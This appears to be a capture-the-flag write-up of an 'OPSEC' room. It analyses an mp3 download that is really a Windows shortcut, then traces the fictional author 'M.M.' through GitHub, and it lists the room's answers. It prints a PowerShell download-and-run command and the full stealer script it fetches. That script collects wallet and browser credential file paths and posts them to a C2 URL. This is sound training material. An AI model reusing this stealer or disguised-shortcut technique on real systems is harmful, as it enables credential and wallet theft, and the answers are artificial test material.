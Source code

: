 # Day 1 - OPSEC

## Day 1: Maybe SOC-mas music, he thought, doesn't come from a store?

In this room, the following are covered:

1. Analyzing lnk files
2. Using OPSEC failures to track down malicious actors and their activities. This can be done by looking for crumbs of information they leave behind (like common usernames on different websites, etc.)

![image.png](images/image.png)

We are taken to an youtube to mp3 / mp4 downloader web page. Here we make use of any Youtube URL and then click on Download. We get a zip file downloaded and upon extraction, we can see 2 mp3 files namely song.mp3 and somg.mp3:

![image.png](images/image%201.png)

Running the file command to identify the file type, we see the following:

![image.png](images/image%202.png)

The file somg.mp3 is an MS Windows shortcut (which should use the .lnk extension). To dig deeper into this suspicious file, we can make use of exiftool:

![image.png](images/image%203.png)

The path, working directory and command line parameters reveal something very interesting. We see that some sort of powershell script is embedded into this lnk file.

What this PowerShell command does:

- The `ep Bypass -nop` flags disable PowerShell's usual
restrictions, allowing scripts to run without interference from security settings or user profiles.
- The `DownloadFile` method pulls a file (in this case, `IS.ps1`) from a remote server ([https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)) and saves it in the `C:\\ProgramData\\` directory on the target machine.
- Once downloaded, the script is executed with PowerShell using the `iex` command, which triggers the downloaded `s.ps1` file.

Visiting the GitHub link on our web browser, we get to see the contents of `IS.ps1`:

```bash
function Print-AsciiArt {
    Write-Host "  ____     _       ___  _____    ___    _   _ "
    Write-Host " / ___|   | |     |_ _||_   _|  / __|  | | | |"  
    Write-Host "| |  _    | |      | |   | |   | |     | |_| |"
    Write-Host "| |_| |   | |___   | |   | |   | |__   |  _  |"
    Write-Host " \____|   |_____| |___|  |_|    \___|  |_| |_|"

    Write-Host "         Created by the one and only M.M."
}

# Call the function to print the ASCII art
Print-AsciiArt

# Path for the info file
$infoFilePath = "stolen_info.txt"

# Function to search for wallet files
function Search-ForWallets {
    $walletPaths = @(
        "$env:USERPROFILE\.bitcoin\wallet.dat",
        "$env:USERPROFILE\.ethereum\keystore\*",
        "$env:USERPROFILE\.monero\wallet",
        "$env:USERPROFILE\.dogecoin\wallet.dat"
    )
    Add-Content -Path $infoFilePath -Value "`n### Crypto Wallet Files ###"
    foreach ($path in $walletPaths) {
        if (Test-Path $path) {
            Add-Content -Path $infoFilePath -Value "Found wallet: $path"
        }
    }
}

# Function to search for browser credential files (SQLite databases)
function Search-ForBrowserCredentials {
    $chromePath = "$env:USERPROFILE\AppData\Local\Google\Chrome\User Data\Default\Login Data"
    $firefoxPath = "$env:APPDATA\Mozilla\Firefox\Profiles\*.default-release\logins.json"

    Add-Content -Path $infoFilePath -Value "`n### Browser Credential Files ###"
    if (Test-Path $chromePath) {
        Add-Content -Path $infoFilePath -Value "Found Chrome credentials: $chromePath"
    }
    if (Test-Path $firefoxPath) {
        Add-Content -Path $infoFilePath -Value "Found Firefox credentials: $firefoxPath"
    }
}

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

# Main execution flow
Search-ForWallets
Search-ForBrowserCredentials
Send-InfoToC2Server

```

The script performs some very suspicious tasks like collecting credential data from browser files, searching for crypto wallets and eventually sending them over to a C2 (Command and Control Server).

### Gathering more details on M.M:

We were able to find a GitHub URL embedded in the lnk file disguised as an mp3 file. There are many paths we could take to continue our investigation. We could investigate the website further, analyze its source code, or search for open directories that might reveal more information about the malicious actor's setup. We can search for the hash or signature on public malware databases like VirusTotal or Any.Run. Each of these methods could yield useful clues.

We can also look more on M.M on GitHub, since that is where the powershell file is being downloaded from. On looking up the string “Created by the one and only M.M.”

On navigating to the issues section of Bloatware’s CryptoWallet-Search repository, we see an interesting interaction between MM and Bloatware-WarevilleTHM:

![image.png](images/image%204.png)

Based on the description in the introduction of the challenge, we can conclude that M.M. is indeed Mayor Malware!

![image.png](images/image%205.png)

This is a classic case of OPSEC failure.

### Operational Security (OPSEC)

OPSEC is a term originally coined in the military to refer to the process of  protecting sensitive information and operations from adversaries. The  goal is to identify and eliminate potential vulnerabilities before the  attacker can learn their identity.

In the context of cyber security, when malicious actors fail to follow proper OPSEC practices, they might leave digital traces that can be pieced together to reveal their identity. Some common OPSEC mistakes include:

- Reusing usernames, email addresses, or account handles across multiple platforms. One might assume that anyone trying to cover their tracks would remove such obvious and incriminating information, but sometimes, it's due to vanity or simply forgetfulness.
- Using identifiable metadata in code, documents, or images, which may reveal personal information like device names, GPS coordinates, or timestamps.
- Posting publicly on forums or GitHub (Like in this current scenario) with details that tie back to their real identity or reveal their location or habits.
- Failing to use a VPN or proxy while conducting malicious activities allows law enforcement to track their real IP address.

We know the attacker left a distinctive signature in the PowerShell code (MM). This allowed us to search for related repositories and  issues pages on GitHub. We then discovered an Issues page where the  attacker engaged in discussions, providing more context and linking their activity to other projects.

## Questions

1. Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 

![tyler.png](images/tyler.png)

Ans: **Tyler Ramsbey**


2. The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?

Ans: `http://papash3ll[.]thm/data`


3. Who is M.M? Maybe his Github profile page would provide clues?

Ans: **Mayor Malware**


4. What is the number of commits on the GitHub repo where the issue was raised?

![image.png](images/image%206.png)

Ans: **1**
